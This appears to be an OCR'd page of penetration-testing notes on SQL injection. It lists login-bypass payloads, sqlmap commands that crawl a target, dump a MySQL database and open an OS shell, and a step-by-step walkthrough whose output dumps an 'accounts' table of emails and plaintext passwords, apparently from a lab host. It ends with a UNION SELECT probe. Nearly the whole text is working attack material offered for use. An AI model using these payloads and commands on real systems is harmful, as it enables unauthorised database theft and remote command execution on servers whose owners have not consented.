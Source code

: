 Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# SQLMAP

## sqlmap crawl  
sqlmap -u http://172.21.0.0 --crawl=1

## sqlmap dump database  
sqlmap -u http://172.21.0.0 --dbms=mysql --dump

## sqlmap shell  
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell

SQLMap Usage

1) First, find out the breach point, such as http://10.124.211.96/newsdetails.php?id=26.

2) Second, determine the databases:

# sqlmap -u http://10.124.211.96/newsdetails.php?id=26 --dbs

----------------------------------------------------------------------------

[13:29:06] [INFO] the back-end DBMS is MySQL

back-end DBMS: MySQL >= 4.1

[13:29:07] [INFO] fetching database names

available databases [2]:

[*] awd

[*] information_schema

----------------------------------------------------------------------------

3) Third, determine tables:

# sqlmap -u http://10.124.211.96/newsdetails.php?id=26 -D awd --tables

----------------------------------------------------------------------------

[13:30:37] [INFO] the back-end DBMS is MySQL

back-end DBMS: MySQL >= 4.1

[13:30:37] [INFO] fetching tables for database: 'awd'

Database: awd

[3 tables]

+----------+

| accounts |

| awards |

| news |

+----------+

----------------------------------------------------------------------------

4) Forth, dump a table's data:

# sqlmap -u http://10.124.211.96/newsdetails.php?id=26 -D awd -T accounts --dump

----------------------------------------------------------------------------

Database: awd

Table: accounts

[11 entries]

+------+-----------------------------------------------------+-------------+-------------------+

| id | email | password | displayname |

+------+-----------------------------------------------------+-------------+-------------------+

| 1 | admin@awdmgmt.labs | S3cr3tBOFH | Admin |

| 2 | porta.elit.a@adipiscingMaurismolestie.net | VUH74DYX6DO | Mallory Reed |

...

----------------------------------------------------------------------------

# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8